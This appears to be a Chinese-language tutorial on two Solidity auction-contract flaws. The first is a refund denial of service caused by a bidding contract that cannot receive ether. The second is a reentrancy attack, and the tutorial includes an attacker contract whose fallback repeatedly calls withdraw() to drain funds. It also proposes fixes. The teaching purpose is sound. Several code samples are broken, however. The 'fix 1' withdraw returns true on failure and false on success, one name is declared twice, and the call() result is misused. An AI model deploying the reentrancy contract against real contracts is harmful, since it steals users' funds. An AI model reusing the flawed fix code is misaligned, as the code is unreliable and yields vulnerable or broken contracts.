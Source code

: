 ## **--> 拍卖合约C：**  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleAuction {
    address public beneficiary;    // 拍卖受益人
    uint public auctionEnd;        // 结束时间
    address public highestBidder;  // 当前最高出价人
    mapping(address => uint) bids; // 所有竞拍者价格（哈希表）
    address[] bidders;             // 所有竞拍者（用于遍历哈希表的键数组）
    bool ended;                    // 拍卖状态标志（默认 false）

    // 事件定义
    event HighestBidIncreased(address bidder, uint amount);  // 最高出价更新
    event AuctionEnded(address winner, uint amount);         // 拍卖结束

    // 构造函数：初始化拍卖时间和受益人
    constructor(uint _biddingTime, address _beneficiary) {
        beneficiary = _beneficiary; 
        auctionEnd = block.timestamp + _biddingTime;  
    }

    // 拍卖出价函数
    function bid() public payable {
        // 检查拍卖是否未结束
        require(block.timestamp <= auctionEnd, "Auction already ended");
        
        // 检查出价是否高于当前最高价
        require(bids[msg.sender] + msg.value > bids[highestBidder], "Bid not higher than current highest");

        // 如果是新竞拍者，加入竞拍者列表
        if (bids[msg.sender] == 0) {
            bidders.push(msg.sender);
        }

        // 更新最高出价者和出价金额
        highestBidder = msg.sender;
        bids[msg.sender] += msg.value;
        emit HighestBidIncreased(msg.sender, bids[msg.sender]);
    }

    // 拍卖结束函数：分配资金
    function auctionEnd() public {  
        // 检查拍卖是否已结束
        require(block.timestamp >= auctionEnd, "Auction not yet ended");
        // 检查是否已执行过结束逻辑
        require(!ended, "Auction end already called");

        // 将最高出价转给受益人
        beneficiary.transfer(bids[highestBidder]);

        // 向未中标的竞拍者退款
        for (uint i = 0; i < bidders.length; i++) { 
            address bidder = bidders[i];
            if (bidder == highestBidder) continue;  
            bidder.transfer(bids[bidder]);  // 返还未中标者的资金
        }

        // 标记拍卖已结束
        ended = true;
        emit AuctionEnded(highestBidder, bids[highestBidder]);
    }
}
```
- 恶意 合约B，没有fallback()、receive()函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SimpleAuction.sol";

contract hackB{
    function hack_bid(address addr) payable public{
        SimpleAuction sa = SimpleAuction(addr);
        sa.bid{value: msg.value}();
    }
}
```
## **--> 情景描述：**

拍卖交易，有**用户A** 通过 **恶意合约B** 访问**拍卖合约C** ， 用户A 未拍卖成功，合约C 退款。

## **-->问题描述：**
### 【1】合约C主动退款，在 恶意合约B 中 未写  ``fallback()``和``receive()`` 函数
#### 1、退款交易失败  
- 若 C 使用transfer或send转账（固定 2300 gas）：由于 B 没有receive()/fallback()，转账会消耗完 gas 并触发回滚，整个退款交易失败，A 无法收到退款
- 若 C 使用call转账且未检查返回值：转账失败但 C 可能误认为成功，导致 A 的退款记录被标记为 “已完成”，但实际未收到资金，形成资金丢失

#### 2、资金可能被锁定在 C 中  
若 C 的退款逻辑是 “一旦触发退款，就从用户的竞拍保证金中扣除并转账”，而转账失败后 C 未处理 “转账失败” 的情况（如未将保证金归还给用户 A 的账户），则 A 的资金会被永久锁定在 C 中，既无法完成退款，也无法用于其他操作。

#### 3、调用链状态不一致  
若 B 在调用 C 的退款前已修改自身状态（如标记 “A 已发起退款”），但 C 的转账失败导致整体交易回滚，可能造成 B 的状态与 C 的状态不一致（如 B 认为退款成功，C 认为未成功）。

### 【2】合约C 被动退款，在 恶意合约B 中**写了** ``fallback()``和``receive()``，但 fallback() 函数中循环访问 合约C 退款函数，产生重入攻击(Re-entrancy Attack)，导致 合约C的钱 都被转走。   
示例如下：  
- 拍卖合约 C 中取回出价的函数：
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( block.timestamp > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----向调用者转账------
    uint amount = bids[msg.sender];
    if(msg.sender.call{value: amount}("")){
        bids[msg.sender] = 0;
        return true;
    }
    return false;
}
```
- 恶意合约 B ：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 引入拍卖合约
import "./SimpleAuctionV2.sol";

contract B {
    uint stack = 0;

    // 调用拍卖合约函数 bid() 参与竞拍
    function hack_bid(address addr) payable public {
        SimpleAuctionV2 sa = SimpleAuctionV2(addr);
        sa.bid{value: msg.value}(); 
    }

    // 调用拍卖合约的 withdraw() 函数取回钱
    function hack_withdraw(address addr) public {
        SimpleAuctionV2(addr).withdraw();
    }

    // 递归调用直到【1】合约C中钱不够了，【2】gas费不够了，【3】调用栈溢出
    fallback() external payable {
        stack += 2;
        // 判断合约C余额足以支持转账、gas费大于6000、栈深度小于500
        if (msg.sender.balance >= msg.value && gasleft() > 6000 && stack < 500) { 
            SimpleAuctionV2(msg.sender).withdraw(); 
        }
    }
}

```
## **-->解决方案：**  
#### - 方案1：优化 withdraw 中 转账部分  
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( now > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----优化 向调用者转账------
    uint amount = bids[msg.sender];  //获取余额
    bids[msg.sender] = 0;            //提前清零
    if(!msg.sender.send(amount)){    //使用 send() 转账，gas费固定 2300
        bids[msg.sender] = amount;   //不符合条件时恢复余额 
        return true;
    }
    return false;
}
```
#### - 方案2：采用”拉取模式“ （Withdraw）替代”推动模式“（Push） 
- C 合约仅记录用户 A 的可退款金额，不主动向 B 转账；
- 竞拍允许用户账户参与（可选）  
- 退款时只能 用户A **主动**从 合约C 提取资金，绕过合约B   

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
// 竞拍合约
contract Auction {
    mapping(address => uint256) public userDeposits; // 记录用户A（EOA）的保证金

    // 退款时强制验证接收地址为EOA（非合约）
    function refundToUser(address payable userA) external {
        uint256 amount = userDeposits[userA];
        require(amount > 0, "No deposit to refund");

        // 关键：验证接收地址是EOA（合约地址的code.length > 0）
        require(userA.code.length == 0, "Refund only to EOA (non-contract)");

        // 检查-生效-交互（重要！！！）
        userDeposits[userA] = 0;
        (bool success, ) = userA.call{value: amount}("");
        require(success, "Refund failed");
    }

    // 接收竞拍保证金（仅允许EOA存入，可选）
    receive() external payable {
        // 确保存款来自EOA（防止合约批量攻击，可选增强）
        require(msg.sender.code.length == 0, "Only EOA can deposit");
        userDeposits[msg.sender] += msg.value;
    }
}
``` 

